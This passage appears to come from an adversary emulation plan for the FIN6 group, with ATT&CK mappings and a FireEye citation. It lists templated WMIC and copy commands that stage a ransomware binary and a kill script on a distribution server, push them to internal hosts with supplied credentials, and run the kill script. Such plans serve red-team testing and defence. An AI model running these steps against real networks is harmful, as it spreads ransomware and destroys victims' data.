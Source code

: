 ##### Copy the distribution scripts to the distribution server

FIN6 Procedure

```sh
copy xaa.bat \\#{Distribution Server}\c$\windows\temp\
```

##### Copy the kill script to the distribution server.

FIN6 Procedure

```sh
copy windows.bat \\#{Distribution Server}\c$\windows\temp\

copy kill.bat \\#{Distribution Server}\c$\windows\temp\
```

#### 7.2 Distribute the ransomware and kill script to the intended targets. ([T1047](https://attack.mitre.org/techniques/T1047/)) ([T1059.003](https://attack.mitre.org/techniques/T1059/003/)) <sup>[12](https://www.fireeye.com/blog/threat-research/2020/05/tactics-techniques-procedures-associated-with-maze-ransomware-incidents.html)</sup>

##### xaa.bat

FIN6 Procedure

```sh
wmic /node:#{internal_IP} /user:#{"domain\username"} /password:#{"password"} process call create "cmd.exe /c copy \\#{distribution_server}\c$\windows\temp\sss.exe c:\windows\temp\"
```

FIN6 Procedure

```sh
wmic /node:#{internal_IP} /user:#{"domain\username"} /password:#{"password"} process call create "cmd.exe /c copy \\#{distribution_server}\c$\windows\temp\windows.bat or kill.bat c:\windows\temp\"
```

#### 7.3 Execute the kill script and then the ransomware.<sup>[12](https://www.fireeye.com/blog/threat-research/2020/05/tactics-techniques-procedures-associated-with-maze-ransomware-incidents.html)</sup>

#### WMIC ([T1047](https://attack.mitre.org/techniques/T1047/))

##### Kill Script

FIN6 Procedure

```sh
wmic /node:#{Ransomware recipient} /user:#{"domain\username"} /password:#{"password"} process call create "cmd /c c:\windows\temp\windows.bat" or "kill.bat"
```
